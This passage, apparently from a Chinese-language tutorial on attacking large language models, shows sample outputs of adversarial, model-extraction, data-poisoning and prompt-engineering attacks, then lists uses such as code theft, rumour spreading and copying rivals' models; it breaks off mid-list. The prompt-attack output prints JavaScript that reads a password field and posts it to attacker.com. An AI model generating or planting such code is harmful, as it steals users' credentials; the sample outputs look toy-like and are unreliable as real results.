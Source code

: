 #### 5.4.1 对抗攻击运行结果

```
对抗样本：这部电影很糟糕
```

#### 5.4.2 模型提取攻击运行结果

```
提取的模型参数：{'这部电影很棒': tensor([[ 0.0072, -0.0053,  0.0003,  ...,  0.0051,  0.0083,  0.0087]]), '这部电影很糟糕': tensor([[ 0.0068, -0.0039, -0.0011,  ...,  0.0048,  0.0078,  0.0082]])}
```

#### 5.4.3 数据污染攻击运行结果

```
污染后的训练数据：[(这部电影很糟糕, 1), (这部电影很糟糕, 0)]
```

#### 5.4.4 提示工程攻击运行结果

```
生成的恶意代码：function stealPassword() {
  // 获取用户密码
  var password = document.getElementById("password").value;

  // 发送密码到攻击者服务器
  var xhr = new XMLHttpRequest();
  xhr.open("POST", "https://attacker.com/steal_password");
  xhr.send(password);
}
```

## 6. 实际应用场景

### 6.1 信息安全

攻击者可以利用大语言模型攻击算法，生成恶意代码，攻击系统，窃取用户数据。

例如，攻击者可以利用提示工程攻击，诱导大语言模型生成可以窃取用户密码的代码，并将其植入到网站或应用程序中，从而窃取用户的敏感信息。

### 6.2 舆论操控

攻击者可以利用大语言模型攻击算法，生成虚假信息，传播谣言，影响公众舆论。

例如，攻击者可以利用对抗攻击，生成虚假新闻，并将其发布到社交媒体平台上，从而误导公众，影响公众舆论。

### 6.3 商业竞争

攻击者可以利用大语言模型攻击算法，攻击竞争对手的模型，获取市场优势。

例如，攻击者可以利用模型提取攻击，复制竞争对手的模型，并将其用于自己的产品或服务中，从而抢占市场份额。

### 6.4 未来应用展望

随着大语言模型技术的不断发展，大语言模型攻击策略的应用场景也会更加广泛，例如：
